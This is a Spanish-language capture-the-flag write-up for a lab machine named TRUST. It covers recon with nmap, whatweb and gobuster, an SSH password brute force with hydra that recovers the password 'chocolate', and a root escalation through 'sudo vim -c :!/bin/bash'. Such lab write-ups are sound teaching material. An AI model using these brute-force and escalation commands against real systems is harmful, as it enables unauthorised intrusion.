 ```yaml
---
description: 'Dificultad: Muy fácil'
---
```


# Máquina TRUST

Fecha: 08 de Marzo de 2025

Objetivo: 172.18.0.2

***

## Fase de reconocimiento

Comenzamos haciendo un ping a la máquina para ver si nos contesta.

```
ping 172.18.0.2
```

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption><p>Respuesta al comando ping</p></figcaption></figure>

Lanzamos el comando NMAP, con los parámetros -sV y -O.

```
nmap -sV 172.18.0.2 -O
```

Acabamos de averiguar que la máquina objetivo dispone de los puertos 80 y 22 abiertos, y funcionando actualmente.&#x20;

* 22/tcp open ssh OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)&#x20;
* 80/tcp open http Apache httpd 2.4.57 ((Debian))

Vamos a visitar la web, para ver que nos arroja el puerto 80.

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption><p>Captura de pantalla de la salida de Apache al instalar un nuevo servidor</p></figcaption></figure>

Vemos que nos retorna la página de configuración del servidor Apache Web Service. Vamos a probar con los ficheros robots.txt y sitemap.xml para ver si contienen información.

No existen los ficheros robots.txt, ni el sitemap.xml.

Vamos a ver que nos reporta _**Wappalyzzer**_ y podemos ver que nos dice que se trata de un servidor Linux, con un _**"Apache HTTP Service"**_ y una distribución **Debian**.

Probamos con el comando _**whatweb**_ con el parámetro -v y nos reporta lo siguiente.

```
whatweb 172.18.0.2 -v
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption><p>Ssalida del whatweb -v</p></figcaption></figure>

Hice un _**dirb**_ para hallar directorios ocultos y me encontré con el siguiente output del comando.

```
dirb http://172.18.0.2
```

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption><p>Salida del comando dirb</p></figcaption></figure>

He encontrado una zona llamada _**server-status**_, pero al intentar navegar y acceder a esa parte me aparece lo siguiente.

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

Al intentar navegar me dice que tengo el acceso prohíbido.

Vamos a hacer un poco de Fuzzing. El Fuzzing consiste en una metodología en la que enviaremos datos aleatorios o modificados a una aplicación web con el objetivo de provocar errores o descubrir vulnerabilidades.

Primero buscaremos los directorios afectados.

```
gobuster dir -u http://172.18.0.2 -w /usr/share/wordlists/dirb/common.txt -t 30 -o results.txt

```

El comando nos reporta esta salida

<figure><img src="../../.gitbook/assets/image (6) (1).png" alt=""><figcaption><p>Salida del comando gobuster haciendo fuzzing</p></figcaption></figure>

Ahora que ya hemos extraido los directorios, buscaremos en los ficheros.

```
gobuster dir -u http://172.18.0.2 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 30 -o results_files.txt

```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption><p>Salida de los ficheros encontrados en la máquina objetivo</p></figcaption></figure>

Podemos ver que hay 3 ficheros en verde que nos devuelven un código 200.

Hemos visitado la web objetivo 172.18.0.2/secret.php y hemos encontrado esto.

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

***

## Fase de Explotación

Lo único que se me ocurre es hacer fuerza bruta al puerto 22 (ssh) pero no se si existe otra solución.

Para ello solo conozco en estos momentos, [hydra](https://www.kali.org/tools/hydra/). Lanzaremos pues el comando para averiguar el password mediante hydra.

```
hydra -l mario -P /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 ssh://172.18.0.2
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption><p>Resultados del ataque al objetivo con Hydra</p></figcaption></figure>

***

## Fase de Post-Explotación

Una vez obtenidas las credenciales del usuario. Podemos acceder a la máquina objetivo mediante SSH.

```
ssh mario@172.18.0.2
```

Introducimos la password encontrada anteriormente <mark style="color:blue;">**chocolate**</mark>, y estamos dentro.

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahora deberíamos buscar los ficheros vulnarables que tenga comprometidos la máquina a nivel de sistema que el SUID sea del usuario root. Para ello lanzaremos el siguiente comando

```
find / -perm -4000 -user root 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que la salida del comando nos retorna todos estos ficheros.

Probamos a ver si nos permite ejecutar algo como root.

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption><p>Output del sudo -l</p></figcaption></figure>

Vemos que podemos ejecutar sobre vim. Sino sabemos como explotarlo, siempre podemos consultar [GTFOBins ](https://gtfobins.github.io/)

```
sudo vim -c ':!/bin/bash'
```

Y si hacemos un whoami podemos ver que ya somos root.

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>
